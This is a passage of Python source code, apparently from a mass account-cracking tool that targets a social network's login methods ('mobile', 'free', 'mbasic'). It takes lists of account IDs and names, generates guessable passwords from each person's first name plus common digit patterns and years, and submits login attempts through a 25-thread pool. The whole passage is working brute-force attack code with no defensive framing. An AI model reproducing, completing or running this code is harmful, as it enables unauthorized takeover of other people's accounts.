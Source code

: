 
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'mbasic' in method:
				pool.submit(crackmbasic,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('')
	exit()
def passwrd4():
	os.system('clear')
	banner()
	print("")
	with tred(max_workers=25) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv = []
			if len(frs) == 3 or len(frs) == 4 or len(frs) == 5 or len(frs) == 6 or len(frs) == 7 or len(frs) == 8 or len(frs) == 9 or len(frs) == 10 or len(frs) == 11 or len(frs) == 12:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')
					pwv.append(frs+'@123')
					pwv.append(frs+'123@')
					pwv.append(frs+'0000')
					pwv.append("1122334455")
					pwv.append("1234512345")
					pwv.append("19901990")
					pwv.append("12345678900")
					pwv.append("19951995")
					pwv.append("20012001")
					pwv.append("20022002")
					pwv.append("20032003")
					pwv.append("20042004")
					pwv.append("20052005")
			else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12')
					pwv.append(frs+'1111')
					pwv.append(frs+'1212')
					pwv.append(frs+'123123')
					pwv.append(frs+'1234512345')
					pwv.append(frs+'0000')
					pwv.append(frs+'1010')
					pwv.append(frs+'123@')